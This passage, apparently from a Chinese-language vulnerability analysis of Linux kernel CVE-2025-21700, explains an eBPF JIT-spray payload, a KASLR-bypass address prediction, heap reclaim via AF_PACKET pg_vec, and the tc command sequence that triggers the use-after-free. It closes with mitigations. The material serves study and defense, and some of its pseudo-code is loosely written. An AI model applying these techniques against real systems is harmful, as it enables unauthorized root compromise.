; 异或入 (0xe9000001 ^ byte)。由于起始值的高字节是 0xE9，
; 且 byte 很小，异或结果的高字节同样是 0xE9。
xor eax, (0xe9000001 ^ byte)    35 <d_lo> <d_hi> <d_hi2> <e9>
```

选择 `xor` 而非 `add`/`sub`，是因为异或操作数的低字节可以直接选择以得到精确的低字节结果，不会溢出到更高字节。

**`get_stack_pointer_into_rbp(offset)`**：目标为使 `rbp` 指向序列开始时的栈顶上方 `offset` 字节处。

```asm
; --- offset == 0 ------------------------------------------------
push rsp                        54          ; [rsp] = rsp
pop  rbp                        5d          ; rbp = rsp

; --- offset != 0 ------------------------------------------------
push rsp                        54          ; 把当前 rsp 保存到栈上
push rsp                        54          ; 第二份拷贝
pop  rbp                        5d          ; rbp = &second_copy
; eax = offset via encode_byte_into_eax
add  [rbp], eax                 01 45 00    ; second_copy += offset
pop  rbp                        5d          ; rbp = second_copy
```

**`offset_pointer(top_of_stack, offset)`**：目标为给当前栈顶的指针加上 `offset`。加法逐字节进行，以避免进位传播问题。

```python
for i in range(sizeof(offset)):
    get_stack_pointer_into_rbp(i)
    encode_byte_into_eax(offset[i])
    ADD_RBP_EAX
```

每次迭代把指向栈顶上方第 `i` 个字节的指针放入 `rbp`，把 `offset[i]` 加载到 `eax`，再把 `eax` 加到 `[rbp]`。由于每次迭代只触碰一个不同的字节，进位不会错误地传播。

**`write_payload(dest, value)`**：目标为从 `*rbp` 开始逐字节写出 `value`。

```python
for b in value:
    encode_byte_into_eax(b)
    MOV_RBP_AL              # *rbp = al
    PUSH_RBP
    offset_pointer(1)
    POP_RBP
```

每次迭代写一个字节并把 `rbp` 前进 1。

##### 2-5-3-4. 目标地址

由于 KASLR 每次启动都会随机化目标地址，利用者无法预先知道它。然而，调用 gadget 的函数其返回地址就在栈上，而差值 `dest - return_address` 是一个编译期常量，只取决于内核构建，不取决于随机偏移。把这个常量加到返回地址上就得到了目标地址：

```python
payload_address = return_address + (target_addr - gadget_addr)
```

直接使用 `offset_pointer()`：

```asm
; rbx 已经持有返回地址（在栈上）
mov rax, delta                   ; 常量嵌入在 payload 中
add [rsp], rax                   ; 就地调整指针
```

##### 2-5-3-5. 链条终止

两种方案：

```asm
; ----- 方案 A：优雅返回 -----
pop rax                         ; 恢复被破坏的寄存器
xor eax, eax
ret                             ; 返回到 eBPF 尾声

; ----- 方案 B：重新发起调用（死循环）-----
sub  rsp, 8                     ; 为返回地址预留空间
mov  qword ptr [rsp], return_address - N
ret                             ; 再次执行 shellcode
```

方案 A 优先，只有在无法干净返回时才使用方案 B。

##### 2-5-3-6. fnsave 压缩

完整的 `write_payload()` 原语无法塞进 `optmem_max = 0x5000` 的预算。它被替换为一条把 x87 FPU 状态复制到内存的指令：

```asm
dd 30                   fnsave [rax]
```

`fnsave` 把 108 字节的 FPU 状态写入 `[rax]`：

```c
struct fpu_state {          /* 总计 108 字节 */
    __u16 cw;               /* 控制字 */
    __u16 __pad0;
    __u16 sw;               /* 状态字 */
    __u16 __pad1;
    __u16 tw;               /* 标签字 */
    __u16 __pad2;
    __u32 ip;               /* 指令指针 */
    __u16 ip_cs;
    __u16 ip_op;
    __u32 dpo;              /* 数据指针偏移 */
    __u16 dpo_ds;
    __u16 __pad3;
    struct fp_reg st[8];    /* 8 × 10 字节寄存器 = 80 字节 */
} __attribute__((__packed__));
```

8 个浮点寄存器 `st[0..7]` 保存 payload 字节。用户态用 `fldt`（加载 80 位浮点）把 `st[0..7]` 设置为所需字节。内核不会碰它们，因此这些值会一直保留到 shellcode。代价是 38 字节不可控的垃圾：结构体的非 `st` 字段，以及 `st(0)`。108 - 38 = 70 个可用字节。

```asm
; ---------- 周围代码 ----------
.. e9                   ; 前一个衔接字节吃掉了 jmp 的 e9
dd 30                   fnsave [rax]
00 00                   add byte ptr [rax], al
..                      ; 真正的 eBPF JIT 代码
```

`rax` 是有效指针，`add [rax], al` 不会触发缺页。payload 最前面的几个字节本来就被前面的指令破坏，而链终止又依赖回到 eBPF 代码，因此这条指令被用作出口。

#### 2-5-4. 稳定性

##### 2-5-4-1. 随机空洞

```c
/* kernel/bpf/core.c : bpf_jit_binary_pack_alloc() */
hole  = min_t(unsigned int,
              size - (proglen + sizeof(*ro_header)),
              BPF_PROG_CHUNK_SIZE - sizeof(*ro_header));
start = get_random_u32_below(hole) & ~(alignment - 1);

*image_ptr = &ro_header->image[start];
```

每个 JIT 映像开头都有一段随机的填充字节。`start` 总是按 `alignment` 字节对齐。典型值 `hole = 56`、`alignment = 4`，随机偏移是 `{0, 4, 8, ..., 52}` 之一。

##### 2-5-4-2. nop 滑梯

指令长度为 4 的倍数、总长至少 56 字节的 nop 滑梯可以吸收任何随机 `start` 并落到 payload 上。滑梯使用 `neg eax`：

```asm
; ----- JIT 对每条 BPF_ALU | BPF_NEG 发出的指令 -----
f7 d8                   neg eax         ; 2 字节长

; ----- 从偏移 0 解码 -----
f7 d8                   neg eax         ; 真实指令
f7 d8                   neg eax
e9 A0 B0 00 00          jmp 0xB0A0(*)

; ----- 从偏移 1 解码 -----
d8 f7                   fdiv st(0), st(7)
d8 f7                   fdiv st(0), st(7)
d8 e9                   fsubr st(0), st(1)
A0 B0 .. ..             ...
```

`d8 f7` 是 `fdiv st(0), st(7)`，一次浮点除法，payload 会忽略它。由于序列 2 字节长且 4 字节对齐，滑梯无论初始随机偏移是多少都有效。副作用是 `st(0)` 被破坏，`fnsave` payload 已经考虑到这一点。

#### 2-5-5. KASLR 绕过

##### 2-5-5-1. JIT 映像位置

eBPF JIT 映像由 `module_alloc` 分配，它是对 `vmalloc` 的一层薄封装，限定在模块区。

```python
MODULE_VADDR = 0xffffffffc0000000
PACK_SIZE    = 2 * 1024 * 1024        # 每个 pack 2 MB
PAGE         = 0x1000

def get_module_load_offset():
    # 每次启动调用一次，之后保持不变。
    # 随机范围：[1, 1024] * PAGE_SIZE，即最多 4 MB。
    return random.randint(1, 1024) * PAGE
```

##### 2-5-5-2. 分配模式

`__vmalloc_node_range()` 顺序地提供分配，每次分配后有一个守护页。每个 pack 是 2 MB。虚拟内存布局为：

```
MODULES_VADDR   应用 module_load_offset 后的真实基址
|               |
|<  R * PAGE  >|< PACK 0 >G< PACK 1>G< ... >G< PACK n>G< PACK n+1 >G< PACK n+2>
                                                  |
                           利用者控制的数据从这里开始
```

`R` 是模块加载偏移。`G` 是守护页。每个 `PACK` 是 512 页 4 KB。

##### 2-5-5-3. 可预测性

两个事实共同作用：`vmalloc` 一个接一个地提供请求，一旦序列已知，后续分配就是可预测的；`get_module_load_offset()` 只在 1 到 1024 页之间选择，如果利用者分配至少 1024 个页大小的映像，滑梯总能覆盖随机偏移。

##### 2-5-5-4. 命中率

如果利用者分配 1024 个页大小的映像，守护页每 pack 损失一页，而只有两个 pack：

```python
N_IMAGES = 1024
GUARD    = 1                    # 每个 pack 损失一页
hit_rate = (1024 - GUARD) / 1024
assert hit_rate == 1023 / 1024  # ≈ 99.9%
```

##### 2-5-5-5. 预测地址

```python
payload_addr = (
    MODULE_VADDR
    + n * 512                    # 前面的 pack
    + n * GUARD                  # pack 之间的守护页
    + N_IMAGES                   # 滑梯覆盖随机范围
    + X                          # 绕过每个映像的随机空洞
)
```

`X = 84` 是跳过目标映像中随机空洞所需的偏移：

```python
PROLOGUE       = 27      # eBPF 函数尾声，字节数
MAX_HOLE       = 56      # 随机空洞上限
MISALIGNMENT   = 1       # 破坏 4 字节对齐，让 CPU 从奇偏移进入

X = PROLOGUE + MAX_HOLE + MISALIGNMENT
assert X == 84
```

由于 nop 滑梯能吸收任何不超过 `hole` 的随机 `start`，选择 `X = 84` 无论该映像的实际随机偏移是多少都会落在滑梯内。

##### 2-5-5-6. 大载荷

当 payload 超过一页时，每个滑梯映像不能直接容纳它。滑梯被构造为一串页大小的映像，每个跳转到下一个。每个映像充当一个精细的 nop，链条终止于真正的 payload。

```asm
; 跨映像调用 gadget，由 BPF_ALU|BPF_RSH 且 K=1 构建：
neg eax                 f7 d8
shr eax, 1              d1 e8
jmp (0x80-*)            e9 80 00 00 00

; ----- 从偏移 1 解码 -----
d8 f7                   fdiv st(0), st(7)
d8 d1                   fcom st(1)
e8 e9 80 00 00          call +0x80ee
```

`BPF_RSH` 提供了 `call` 前缀，随后的 `jmp` 编码出一个大致页对齐的调用偏移。

朴素的递归可深达 1024 帧，会耗尽栈。一个短的尾调用 payload 改写栈上的返回地址并返回。

```asm
; 改写所需的 gadget：
44 0b 00                or  r8d, dword ptr [rax]
44 03 00                add r8d, dword ptr [rax]
44 01 00                add dword ptr [rax], r8d
```

```python
# 分三步令 r8d = 0x1000。
r8d = -1                                       # or  r8d, [rax]，其中 [rax] = -1
r8d = r8d + *rax if *rax == 0x1000 else ...    # add r8d, [rax]
*return_address += r8d                         # add [rax], r8d
```

nop 滑梯布局：

```
[ IMAGE 0x0000 ]（大小 = 0x1000）
 : call IMAGE +0x8000 + A
  ..
  A  : add B to [rsp]
       push [rsp]
       ret
  ...
  A+B: add 0x1000 to [rsp]
       push [rsp]
       ret

[ IMAGE 0x1000 ]（大小 = 0x1000）
  0  : call IMAGE +0x8000 + A
  ..
  A  : add B to [rsp]
       push [rsp]
       ret
  ...
  A+B: add 0x1000 to [rsp]
       push [rsp]
       ret

...

[ IMAGE 0x8000 ]（大小 = 0x1000）
  0  : call IMAGE +0x8000 + A
  ..
  A  : add B to [rsp]
       push [rsp]
       ret
  ...
  A+B: add 0x1000 to [rsp]
       push [rsp]
       ret

...
```

```python
# 命中率分析：
PAGES_PER_PACK = 512
PAYLOAD_PAGES  = 7
RANGE_LIMIT    = 8       # 初始调用必须落在 8 页之内

hit_rate = 2 * (PAGES_PER_PACK - PAYLOAD_PAGES - RANGE_LIMIT) / 1024
assert hit_rate > 0.97
```

最终结果是一个不依赖 KASLR、命中率接近 100% 的无特权内核 one gadget。

#### 2-5-6. 与利用链的衔接

Kernel One Gadget 在 **CVE-2025-21700** 的利用链中承担控制流转移目标与提权载荷两个角色。其与 UAF 原语的衔接通过 AF_PACKET 的 `pg_vec` 数组完成。

被释放的 `FIFO(777:)` 位于 kmalloc-512 缓存中，偏移 `0x18` 处的字段为 `Qdisc->ops`。利用者通过 AF_PACKET 的 `PACKET_TX_RING` 机制分配 `pg_vec` 数组，该数组由若干指针组成，落入同一 kmalloc-512 缓存，从而回收被释放 `Qdisc` 的槽位。数组中的 `pg_vec[i].buffer` 指向内核页面，而这些页面已映射到用户空间，整页内容完全由用户态控制。

当 `pg_vec` 数组落在被释放 `Qdisc` 的槽位上时，数组元素恰好覆盖 `Qdisc` 的字段。其中某个 `pg_vec[i].buffer` 落在偏移 `0x18` 处，即 `Qdisc->ops` 字段的位置。于是，被释放 `Qdisc` 的 `ops` 指针不再指向原有的 `Qdisc_ops`，而是指向 `pg_vec[i].buffer` 所映射的用户态可控页面。利用者在该页面起始处放置伪造的 `Qdisc_ops`，并将其 `peek` 成员写为 JIT 载荷在模块内存中的预测地址。

当 `drr_dequeue()` 执行 `cl->qdisc->ops->peek(cl->qdisc)` 时，`cl->qdisc` 为悬空指针，其 `ops` 指针指向伪造的 `Qdisc_ops` 页面，`ops->peek` 即为 JIT 载荷的入口地址。控制流由此进入 eBPF JIT 镜像，执行覆写 `core_pattern` 的载荷。随后，利用者触发一个子进程的 core dump，内核按照新的 `core_pattern` 以 root 权限重新执行指定程序，从而完成本地权限提升。

与常规的内核控制流劫持相比，这一路径省去了两项工作：一是无需构造完整的 ROP 链，因为 JIT 载荷本身就是一段完整的可执行代码；二是无需依赖独立的 KASLR 泄露，因为 JIT 映像的模块区布局可以通过大量喷射与随机偏移的有界性加以预测。利用者只需通过 `pg_vec` 数组回收被释放 `Qdisc` 的槽位，使 `Qdisc->ops` 指向伪造的 ops 页面，并把 `peek` 指向预测的 JIT 载荷位置即可。该思路借鉴于 CVE-2023-4208 的 **kernelCTF** 利用方案，在 **CVE-2025-21700** 的利用链中同样适用。

### 2-6. 触发条件

漏洞的触发需要一组前置条件同时具备。这些条件决定了漏洞能否被触发，与具体操作步骤和受影响版本范围相互独立。以下从权限、内核配置与网络接口三个方面展开。

#### 2-6-1. 权限要求

触发 **CVE-2025-21700** 需要进程具备 `CAP_NET_ADMIN` 能力，因为 qdisc 与 class 的创建、替换与删除均通过 netlink 接口下发，而该接口对 `RTM_NEWQDISC`、`RTM_NEWTCLASS`、`RTM_DELTCLASS` 等请求设有权限检查。

在启用非特权用户命名空间的系统上，普通用户可通过 `unshare(CLONE_NEWUSER | CLONE_NEWNET)` 创建新的用户与网络命名空间。在该命名空间内，进程成为 `CAP_NET_ADMIN` 的持有者，从而获得对 `lo` 等虚拟接口的配置权限。

#### 2-6-2. 内核配置

触发路径依赖以下内核配置项：

- `CONFIG_NET_SCHED`：启用 TC 子系统，提供 qdisc 与 class 的基本框架。
- `CONFIG_NET_SCH_DRR`：启用 DRR 调度器。漏洞链条中的活动列表、`drr_qlen_notify()` 与 `drr_dequeue()` 均来自该调度器。
- `CONFIG_NET_SCH_PLUG`：启用 PLUG 调度器。`plug(1:3)` 在出队路径中控制活动列表的迭代顺序，是触及悬空 `fifo_B` 条目的必要条件。
- `CONFIG_NET_SCH_FIFO`：pfifo qdisc 是 DRR 类的默认子 qdisc，也是 graft 操作中被替换并最终释放的对象。
- `CONFIG_PACKET`：启用 AF_PACKET 套接字与 `PACKET_TX_RING` 机制。该机制用于分配 `pg_vec` 数组，使其落入被释放 `Qdisc` 所在的 kmalloc-512 缓存，从而回收该槽位并覆盖 `Qdisc->ops` 字段。
- `CONFIG_USER_NS` 与 `CONFIG_NET_NS`：启用非特权用户命名空间与网络命名空间，使普通用户能够获得 `CAP_NET_ADMIN`。

若上述配置中缺少 `CONFIG_NET_SCH_DRR`、`CONFIG_NET_SCH_PLUG` 或 `CONFIG_PACKET`，漏洞链条将无法完整构建。

#### 2-6-3. 网络接口

需要一个可操作的网络设备作为 qdisc 树的宿主。`lo` 环回接口是最常用的选择，因其始终存在且无需额外硬件。利用者在该接口上依次创建 `DRR(1:)` 根 qdisc、若干 DRR 类以及嵌套的 `DRR(11:)`，并通过 `skb->priority` 或过滤器将数据包分派到目标类。

若设备不支持多队列，`sch->flags` 会被置上 `TCQ_F_ONETXQUEUE`，但这不影响漏洞链条的成立。关键在于该设备能够承载 DRR 与 PLUG 调度器，并允许通过 netlink 对其配置 qdisc 与 class。

### 2-7. 触发流程

漏洞的触发需要按特定顺序组合若干 tc 操作，每一步都在前一阶段建立的状态之上推进。以下按链条推进顺序分为六个阶段，每个阶段后给出该阶段结束时的 qdisc 树状态。

#### 2-7-1. 构建 qdisc 树

第一阶段在 `lo` 接口上建立 `DRR(1:)` 根 qdisc，并添加三个基础类：

```
tc qdisc add dev lo root handle 1: drr
tc class add dev lo classid 1:1 drr
tc class add dev lo classid 1:2 drr          (on CPU 1)
tc class add dev lo classid 1:3 drr quantum 1
```

`drr(1:1)` 用于承载后续的嵌套结构，`fifo_B(1:2)` 作为最终承载被替换 qdisc 的类，`plug(1:3)` 作为激活活动列表的辅助类。`plug(1:3)` 的 quantum 显式设为 1，这一设置在出队路径中控制活动列表的迭代顺序。`fifo_B(1:2)` 与若干 dummy 类被分配在 CPU 1 上，以避免 `fifo_B` 的槽位落在 CPU 0 活跃的 kmalloc-128 slab 上，从而为后续释放后的堆布局留下空间。

每个 DRR 类在创建时都会由 `drr_change_class()` 通过 `qdisc_create_dflt()` 自动获得一个默认的 pfifo qdisc。`qdisc_create_dflt()` 将 `sch->parent` 设为传入的 `classid`，这是 `parent` 字段的首次赋值点。

此时 qdisc 树状态如下：

```
DRR(1:)
 ├── drr(1:1) ──► pfifo(1:1)          (默认子 qdisc)
 ├── fifo_B(1:2) ──► pfifo(1:2)       (默认子 qdisc，on CPU 1)
 └── plug(1:3) ──► pfifo(1:3)         (默认子 qdisc，quantum = 1)
```

#### 2-7-2. 嵌套结构

第二阶段在 `drr(1:1)` 下构建嵌套结构：

```
tc qdisc add dev lo parent 1:1 handle 11: drr
tc qdisc add dev lo parent 1:3 handle 13: plug limit 0xffff
tc class add dev lo classid 11:11 drr
tc qdisc add dev lo parent 11:11 handle 777: pfifo
```

`DRR(11:)` 挂载到 `drr(1:1)` 下，`fifo_A(11:11)` 在其下创建，`FIFO(777:)` 再挂到 `fifo_A(11:11)` 下。此时 `FIFO(777:)` 的 `parent` 为 `11:11`，与其实际挂载位置一致。`PLUG(13:)` 挂到 `plug(1:3)` 下，替换其默认 pfifo。

此时 qdisc 树状态如下：

```
DRR(1:)
 ├── drr(1:1)
 │    └── DRR(11:)
 │         └── fifo_A(11:11)
 │              └── FIFO(777:)        parent = 11:11, refcnt = 1
 ├── fifo_B(1:2) ──► pfifo(1:2)
 └── plug(1:3)
      └── PLUG(13:)
```

#### 2-7-3. 跨父类替换

第三阶段执行关键的 replace 操作，将 `FIFO(777:)` 从 `fifo_A(11:11)` 替换到 `fifo_B(1:2)` 下：

```
tc qdisc replace dev lo parent 1:2 handle 777:
```

内核经由 `tc_modify_qdisc()` 的 `NLM_F_REPLACE` 路径找到 `FIFO(777:)`，调用 `check_loop()` 检测父子循环后，通过 `qdisc_refcount_inc()` 提升其引用计数，随后进入 `qdisc_graft()`。`qdisc_graft()` 的类路径通过 `cops->find()` 解析目标类 `fifo_B(1:2)`，再调用 `drr_graft_class()` 与 `qdisc_replace()`，将 `FIFO(777:)` 写入 `fifo_B(1:2)->cl->qdisc`，并对 `fifo_B` 原有的默认 pfifo 执行 purge 与释放。

关键问题在于：`qdisc_replace()` 只交换字段并释放旧 qdisc，不更新 `FIFO(777:)->parent`。替换完成后，`FIFO(777:)` 实际挂在 `fifo_B(1:2)` 下，但其 `parent` 字段仍指向 `fifo_A(11:11)`，其引用计数从 1 变为 2。

此时 qdisc 树状态如下：

```
DRR(1:)
 ├── drr(1:1)
 │    └── DRR(11:)
 │         └── fifo_A(11:11)         (无子 qdisc)
 ├── fifo_B(1:2)
 │    └── FIFO(777:)                 parent = 11:11 (陈旧), refcnt = 2
 └── plug(1:3)
      └── PLUG(13:)
```

#### 2-7-4. 使 parent 陈旧化

第四阶段删除 `drr(1:1)` 类，销毁嵌套结构：

```
tc class del dev lo classid 1:1
```

`drr_delete_class(1:1)` 会销毁 `drr(1:1)` 以及嵌套的 `DRR(11:)`。一旦 `DRR(11:)` 被释放，其下的 `fifo_A(11:11)` 也随之被销毁。在销毁 `fifo_A(11:11)` 时，`drr_destroy_class()` 调用 `qdisc_put(cl->qdisc)`，此时 `cl->qdisc` 正是 `FIFO(777:)`。其 `refcnt` 从 2 减为 1，但尚未归零，因此不会被释放。与此同时，类标识 `11:11` 已无法再通过 `drr_find_class()` 解析，`FIFO(777:)->parent` 成为指向已不存在类的陈旧值。

此时 qdisc 树状态如下：

```
DRR(1:)
 ├── fifo_B(1:2)
 │    └── FIFO(777:)                 parent = 11:11 (不可解析), refcnt = 1
 └── plug(1:3)
      └── PLUG(13:)
```

#### 2-7-5. 激活与释放 fifo_B

第五阶段激活 `plug(1:3)` 与 `fifo_B(1:2)`，随后删除 `fifo_B(1:2)`：

```
tc class del dev lo classid 1:2
```

先向 `plug(1:3)` 发送一个数据包，使其进入活动列表头部。由于 `plug(1:3)` 的 quantum 为 1，第一次 `drr_dequeue()` 尝试不会将其出队，而是将其旋转到活动列表尾部。再向 `fifo_B(1:2)` 发送一个数据包，使 `fifo_B` 排在 `plug` 之后进入活动列表。

删除 `fifo_B(1:2)` 时，`drr_delete_class()` 先调用 `qdisc_purge_queue()` 清理 `FIFO(777:)`，后者触发 `qdisc_tree_reduce_backlog()`。该函数通过 `sch->parent` 计算主号并交给 `qdisc_lookup_rcu()` 查找父 qdisc，但 `11:11` 对应的 qdisc 在设备哈希表中已不存在，查找返回 `NULL`，循环随即 `break`，`drr_qlen_notify()` 不会被调用。随后 `drr_destroy_class()` 执行 `kfree(cl)` 与 `qdisc_put(cl->qdisc)`，释放 `fifo_B(1:2)` 对应的 `drr_class` 与 `FIFO(777:)`。

由于 `drr_qlen_notify()` 未被调用，活动列表中的 `fifo_B` 条目未被移除。`kfree(cl)` 之后，活动列表中残留了一个指向已释放内存的链表项，该链表项的 `qdisc` 字段仍指向同样已被释放的 `FIFO(777:)`。悬空 `drr_class` 与悬空 `Qdisc` 由此形成。

此时 qdisc 树与活动列表状态如下：

```
DRR(1:)
 └── plug(1:3)
      └── PLUG(13:)

活动列表： plug(1:3) -> [悬空 fifo_B(1:2) 条目] -> ...
悬空对象： drr_class(fifo_B) 与 FIFO(777:) 已释放
```

#### 2-7-6. 触发 UAF

第六阶段释放 `plug`，`drr_dequeue()` 从活动列表头部开始遍历：

```c
static struct sk_buff *drr_dequeue(struct Qdisc *sch)
{
    ...
    while (1) {
        cl = list_first_entry(&q->active, struct drr_class, alist);

        /* ★★★★★ 漏洞点 ★★★★★
         * cl 为活动列表中残留的悬空 drr_class 条目，
         * cl->qdisc 仍指向已被释放的 FIFO(777:)。
         */
        skb = cl->qdisc->ops->peek(cl->qdisc);
        ...
    }
}
```

第一次迭代读取 `plug(1:3)`，其 quantum 为 1，`len > plug->deficit`，于是 `plug` 被 `list_move_tail()` 旋转到活动列表尾部。第二次迭代读取的新头部正是已被释放的 `fifo_B(1:2)` 条目。`cl` 此时为悬空指针，`cl->qdisc` 指向已释放的 `FIFO(777:)`，`cl->qdisc->ops->peek` 即为释放后重用窗口。

在 UAF 窗口打开后，若悬空 `Qdisc` 槽位已被 `pg_vec` 数组回收，则 `Qdisc->ops` 指向用户态可控页面中的伪造 `Qdisc_ops`，`ops->peek` 被设置为 JIT 载荷的预测地址。控制流由此进入 eBPF JIT 镜像，执行覆写 `core_pattern` 的载荷，最终完成本地权限提升。

此时活动列表遍历顺序如下：

```
第一次迭代： plug(1:3)  ──► 旋转到尾部
第二次迭代： [悬空 fifo_B(1:2)] ──► 触发 UAF
```

#### 2-7-7. 因果链条

从 qdisc 树构建到 UAF 触发，各阶段之间的因果关系可以概括为一条单向推进的链条。每一环节都为下一环节创造前提，缺一不可。

**起点：replace 语义与 graft 路径的错位。** `tc_modify_qdisc()` 在 `NLM_F_REPLACE` 路径中仅以 `check_loop()` 检测父子循环，不校验被替换 qdisc 的 `parent` 是否等于目标 `clid`。这一缺失使 `FIFO(777:)` 可以在不更新 `parent` 字段的情况下从 `fifo_A(11:11)` 被替换到 `fifo_B(1:2)` 下。替换完成后，`FIFO(777:)` 实际挂在新父类下，但其 `parent` 仍指向旧父类，引用计数从 1 变为 2。

**传导：旧父类的销毁使 parent 成为不可解析值。** 删除 `drr(1:1)` 后，嵌套的 `DRR(11:)` 与 `fifo_A(11:11)` 一并被销毁。类标识 `11:11` 不再能通过 `drr_find_class()` 解析，`FIFO(777:)->parent` 从“指向旧父类”变为“指向已不存在的类”。此时 `FIFO(777:)` 的引用计数从 2 减为 1，仍被 `fifo_B(1:2)` 持有。

**断裂：反向查找失败使通知被跳过。** 删除 `fifo_B(1:2)` 时，`qdisc_purge_queue()` 触发 `qdisc_tree_reduce_backlog()`。该函数通过 `sch->parent` 计算主号并交给 `qdisc_lookup_rcu()` 查找父 qdisc，但 `11:11` 对应的 qdisc 已从设备哈希表中移除，查找返回 `NULL`，循环 `break`。`drr_qlen_notify()` 因此未被调用，活动列表中的 `fifo_B` 条目未被移除。

**释放：类与 qdisc 被释放而活动列表仍持有引用。** `drr_destroy_class()` 执行 `kfree(cl)` 与 `qdisc_put(cl->qdisc)`，释放 `fifo_B(1:2)` 对应的 `drr_class` 与 `FIFO(777:)`。由于 `drr_qlen_notify()` 未被调用，活动列表中的 `alist` 节点未被摘除，残留为悬空链表项；该链表项的 `qdisc` 字段仍指向已释放的 `FIFO(777:)`，形成悬空 `Qdisc`。

**触发：出队遍历解引用悬空对象。** 释放 `plug` 后，`drr_dequeue()` 从活动列表头部开始遍历。第一次迭代读取 `plug(1:3)`，因其 quantum 为 1，将其旋转到活动列表尾部。第二次迭代读取已被释放的 `fifo_B(1:2)` 条目，执行 `cl->qdisc->ops->peek(cl->qdisc)`，在 `peek` 调用点解引用悬空 `Qdisc`。

整条链条的因果结构可以表示为：

```
replace 缺少 parent 校验
        │
        ▼
FIFO(777:)->parent 仍指向 11:11
        │
        ▼
删除 drr(1:1) 使 11:11 不可解析
        │
        ▼
qdisc_lookup_rcu() 返回 NULL
        │
        ▼
drr_qlen_notify() 未被调用
        │
        ▼
活动列表保留 fifo_B 条目
        │
        ▼
drr_class 与 FIFO(777:) 被释放
        │
        ▼
drr_dequeue() 解引用悬空对象
        │
        ▼
cl->qdisc->ops->peek 形成 UAF 窗口
```

链条中任一环节缺失，后续环节均无法成立。若 `tc_modify_qdisc()` 校验了 `parent` 归属，替换操作会被拒绝；若 `fifo_A(11:11)` 未被销毁，`parent` 仍可解析，通知正常传递；若 `drr_qlen_notify()` 被调用，活动列表中的条目会被移除；若活动列表不持有悬空引用，`drr_dequeue()` 不会触及已释放对象。正是这些环节的依次叠加，使一个局部的语义缺口最终演化为稳定且可触发的释放后重用原语。

### 2-8. 影响范围

**CVE-2025-21700** 的引入可追溯至 `1da177e4c3f4`（Linux 2.6.12-rc2），此后长期存在于 TC 子系统的 replace 路径中，直至修复commit `bc50835e83f6` 被纳入主线内核 v6.14-rc1。在此期间发布的多个稳定分支均受到该漏洞影响。

#### 2-8-1. 版本范围

根据修复commit中披露的 CPE 配置，受影响的版本范围覆盖以下分支：

- `>= 2.6.12-rc2` 至 `< 5.4.291`
- `>= 5.5` 至 `< 5.10.235`
- `>= 5.11` 至 `< 5.15.179`
- `>= 5.16` 至 `< 6.1.129`
- `>= 6.2` 至 `< 6.6.76`
- `>= 6.7` 至 `< 6.12.13`
- `>= 6.13` 至 `< 6.13.2`

上述范围横跨自 2.6 系列至 6.13 系列的广泛内核版本。主线修复版本为 v6.14-rc1。

#### 2-8-2. 风险等级

**CVE-2025-21700** 的 CVSS 3.1 评分为 7.8，对应 High 严重等级。CISA 的 KEV 目录中未收录该漏洞。

修复commit中给出了完整的复现脚本，**kernelCTF** 中亦有该漏洞的利用记录。这些记录表明，该漏洞在开启 KASLR、SMEP、SMAP、KPTI 等保护机制的现代内核上具备可利用性。

#### 2-8-3. 缓解措施

**限制非特权用户命名空间（最有效）。** 漏洞的触发依赖通过 `unshare(CLONE_NEWUSER | CLONE_NEWNET)` 取得 `CAP_NET_ADMIN`。禁止非特权用户创建用户命名空间后，普通用户无法取得该能力，也就无法配置 qdisc 与 class。可通过 `sysctl -w kernel.unprivileged_userns_clone=0` 或 `sysctl -w user.max_user_namespaces=0` 实现；容器与沙箱等依赖用户命名空间的功能可能受影响。

**更新内核。** 升级至包含修复commit的内核版本可从根本上消除该漏洞。主线修复版本为 v6.14-rc1，各稳定分支的修复版本见 2-8-1 节。

**限制 tc 权限。** 通过 `setcap -r /sbin/tc` 与 `chmod 750 /sbin/tc` 移除非特权用户的 `CAP_NET_ADMIN`，可阻断通过 tc 命令配置 qdisc 的路径。

### 2-9. 总结

**CVE-2025-21700** 是 Linux 内核 TC 子系统中一个由语义校验缺失引发的释放后重用漏洞。其根源在于 `tc_modify_qdisc()` 的 `NLM_F_REPLACE` 路径仅以 `check_loop()` 检测父子循环，未校验被替换 qdisc 的 `parent` 是否等于目标 `clid`。这使得 `FIFO(777:)` 可以在不更新 `parent` 字段的情况下从 `fifo_A(11:11)` 被替换到 `fifo_B(1:2)` 下，`parent` 仍指向旧父类，引用计数从 1 变为 2。

当 `drr(1:1)` 被删除后，嵌套的 `DRR(11:)` 与 `fifo_A(11:11)` 一并销毁，类标识 `11:11` 不再可解析，`FIFO(777:)->parent` 成为陈旧值。随后删除 `fifo_B(1:2)` 时，`qdisc_purge_queue()` 触发 `qdisc_tree_reduce_backlog()`，后者通过 `sch->parent` 计算主号并交给 `qdisc_lookup_rcu()` 查找父 qdisc，但 `11:11` 对应的 qdisc 已从设备哈希表中移除，查找返回 `NULL`，循环中断，`drr_qlen_notify()` 未被调用。活动列表中的 `fifo_B` 条目因此未被移除，而 `drr_destroy_class()` 已执行 `kfree(cl)` 与 `qdisc_put(cl->qdisc)`，释放了 `drr_class` 与 `FIFO(777:)`。悬空 `drr_class` 与悬空 `Qdisc` 由此形成。

最终，释放 `plug` 后，`drr_dequeue()` 从活动列表头部开始遍历。第一次迭代读取 `plug(1:3)`，因其 quantum 为 1，将其旋转到活动列表尾部；第二次迭代读取已被释放的 `fifo_B(1:2)` 条目，执行 `cl->qdisc->ops->peek(cl->qdisc)`，在 `peek` 调用点解引用悬空对象，形成释放后重用窗口。

从利用角度看，该漏洞提供了两个层叠的 UAF 对象——`drr_class`（kmalloc-128）与悬空 `Qdisc`（kmalloc-512），构成了可供堆布局操控的利用原语。公开的 **kernelCTF** 方案展示了如何通过 AF_PACKET 的 `pg_vec` 数组回收被释放 `Qdisc` 的槽位，使 `Qdisc->ops` 指向用户态可控页面中的伪造 `Qdisc_ops`，并将 `peek` 指向 eBPF JIT 喷射区域。Kernel One Gadget 在此承担控制流转移目标与提权载荷，省去了构造 ROP 链与独立 KASLR 泄露的步骤，使利用链在开启 `bpf_jit_harden` 的现代内核上仍能保持稳定。

该漏洞影响自 2.6.12-rc2 至 6.13.2 的广泛内核版本分支，CVSS 3.1 评分为 7.8。缓解措施中，限制非特权用户命名空间最为有效，可直接阻断普通用户取得 `CAP_NET_ADMIN` 的路径；更新内核与限制 tc 权限亦可降低风险。修复commit采取预防性策略，直接禁止跨父类替换，既契合 replace 应限定于同一节点的语义，也避免了修改 `parent` 字段或引用计数可能引入的兼容性风险。

